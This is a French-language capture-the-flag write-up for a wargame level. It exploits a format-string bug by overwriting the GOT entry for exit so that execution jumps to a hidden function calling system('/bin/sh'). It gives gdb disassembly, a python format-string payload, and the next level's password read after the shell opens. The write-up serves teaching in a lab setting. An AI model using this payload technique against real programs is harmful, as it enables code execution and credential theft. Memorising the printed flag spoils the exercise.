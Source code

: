 # Level 5

Ce niveau ressemble aux deux précédentes à la différence c'est qu'après le `printf` il appel la function `exit`.

En examinant l'asm on peut voir qu'il y a une fonction `o` pas utilisé, qui appel `system("/bin/sh")`.

Quand on reverse `exit` la function fait en réalité un `jmp` à une adresse, l'idée ici est de modifié l'adresse du jump d'exit par l'adresse de la fonction `o`.

Les adresses du programme commence toute par `0x0804` nous avons donc a modifié qu'une partie de l'adresse grâce à `printf`.

La partie que nous devons réecrire est donc `84a4` soit `33956` en décimal.

```shell
~ gdb level5
(gdb) disas main
Dump of assembler code for function main:
[...]
   0x0804850a <+6>:	call   0x80484c2 <n>
[...]
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) info func
All defined functions:

Non-debugging symbols:
[...]
0x080484a4  o
0x080484c2  n
0x08048504  main
[...]
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) quit
~ python -c 'print "\x38\x98\x04\x08" + "%33952x" + "%4$hn"' > /tmp/level5
~ cat /tmp/level5 - | ./level5
[...]
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

